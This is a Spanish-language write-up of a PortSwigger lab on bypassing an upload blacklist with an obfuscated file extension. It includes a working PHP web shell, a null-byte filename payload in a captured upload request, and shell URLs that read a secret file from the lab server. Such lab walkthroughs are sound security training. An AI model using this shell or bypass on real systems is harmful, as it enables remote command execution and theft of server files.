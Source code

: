 ```yaml
---
title: Web shell upload via obfuscated file extension
description: Laboratorio de Portswigger sobre File Upload Vulnerabilities
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload Vulnerabilities
tags:
  - Portswigger Labs
  - File Upload Vulnerabilities
  - Web shell upload via obfuscated file extension
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser `eludida` usando una `clásica técnica` de `ofuscación`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite, el payload va a ser `shell.php%00.png`, las versiones de php inferiores a la 5.4 son vulnerables a null byte injection `%00`, lo que hace que ignore lo que hay detrás de él y no se interprete

```
Content-Disposition: form-data; name="avatar"; filename="shell.php%00.png"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Vemos que el archivo php se ha subido correctamente y que seha subido con el nombre shell.php ignorando lo que hay detrás del null byte `%00`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_6.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_7.png)

Si accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php%00.png?cmd=whoami` vemos que nos da un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_8.png)

Sin embargo, sin accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que nos ejecuta el comando

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_10.png)

Obtenemos el contenido del archivo secret `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_12.png)
